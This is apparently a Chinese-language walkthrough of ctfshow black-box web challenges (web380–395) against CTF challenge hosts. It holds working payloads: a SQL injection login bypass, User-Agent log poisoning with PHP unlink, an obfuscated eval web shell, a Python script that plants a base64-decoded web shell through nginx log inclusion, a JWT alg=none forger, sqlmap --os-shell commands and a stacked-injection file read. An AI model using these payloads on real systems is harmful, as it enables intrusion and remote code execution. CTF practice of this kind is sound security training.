






## ctfshow_黑盒测试

玩点有意思的黑盒测试

### web380



打开页面到处点了一下并没有发现什么可疑的地方

直接扫后台

```bash
[17:43:01] 200 -    0B  - /flag.php
[17:43:25] 200 -  119B  - /page.php
```

直接访问`/flag.php`是没回显的



访问`page.php`

```
https://bef57593-24e7-43af-a254-6b0a6ea55810.challenge.ctf.show/page.php?id=flag
```

得到flag

### web381

与上题一样访问`page.php`



规定了前缀和后缀，感觉没法利用

访问源码发现一个奇怪的路径



访问`/alsckdfy`得到flag ？？？？？

### web382

接着访问上题的路径，这次是一个登录框

简单的sql注入，登陆进去就拿到flag

```
p=1&u=1'||1=1;#
```

### web383

同上

### web384

提示`密码前2位是小写字母，后三位是数字`

我就不爆破了。。

`账号 admin 密码 xy123`

### web385

访问`install/?install`重置密码

然后用`admin admin888`登陆

### web386

访问`clear.php`



那估计就是**file**是参数

访问`/install`是说已经安装过了，那就删除`?file=install/lock.dat`，然后重置密码登陆

### web387

直接用`clear.php`删不掉了

有一个`debug`

可以**文件包含**

```php
http://fb1d3e45-2ece-4ee3-af3c-50b4a55bb762.challenge.ctf.show/debug/?file=/var/log/nginx/access.log
```

直接日志文件包含删掉**lock.dat**

```php
user-agent:<?php unlink('/var/www/html/install/lock.dat')?>
```

然后继续上述步骤

### web388

多了一个目录`/alsckdfy/editor/`

日志文件包含多了过滤

**预期解**

 [CVE-2017-1002024](https://wiki.96.mk/Web安全/Kindeditor/（CVE-2017-1002024）Kindeditor <%3D4.1.11 上传漏洞/)

上传一个免杀🐎绕过

```php
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

然后利用`/debug`写入日志



然后日志包含，执行php代码

然后访问`1.php` **rce**

**非预期**

绕过日志文件的写入

```python
import requests
import base64
url="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/"
url2="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd)
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'}).text)
```

### web389

在上题的基础上多了一个`jwt`，直接**none**加密伪造绕过就好了

```python
from email import header
import jwt
import datetime

#自己组织payload
payload = {
  "iss": "admin",
  "iat": 1671849947,
  "exp": 1671857147,
  "nbf": 1671849947,
  "sub": "admin",
  "jti": "03991dd75449ec147dc38c7caa8596d7"
}
header={
  "alg": "none",
  "typ": "JWT"
}

jwt_token=jwt.encode(payload, #payload
                     "", #key
                     algorithm='none', #算法
                     headers=header #header
                     )
print(jwt_token)
```

### web390

page页面又直接的php文件变成了

```
http://dae903a6-fd52-4316-8473-5a0535389b61.challenge.ctf.show/page.php?id=1
```

存在**sql注入**

无任何过滤，那就直接上**sqlmap**了

```bash
sqlmap -u "http://dae903a6-fd52-4316-8473-5a0535389b61.challenge.ctf.show/page.php?id=1" --os-shell
```

可以直接拿到**shell**

### web391

注入点变了

```
http://728e2493-f933-42d9-a8e5-11f9358f7265.challenge.ctf.show/search.php?title=1
```

同上sqlmap一把梭

```bash
sqlmap -u "http://728e2493-f933-42d9-a8e5-11f9358f7265.challenge.ctf.show/search.php?title=1" --os-shell
```

### web392

同上

### web393

多了一个搜索功能，先利用search.php进行堆叠注入，将flag插入到搜索功能中的数据库中

```
search.php?title=1';insert into link values(10,'a','file:///flag');
```

然后搜索10就好了

```
link.php?id=10
```

### web394-395

第一种是和上题一样，只不过多了一个**hex**编码

第二种办法是**ssrf打redis**，因为title是存在url访问，可以打ssrf的


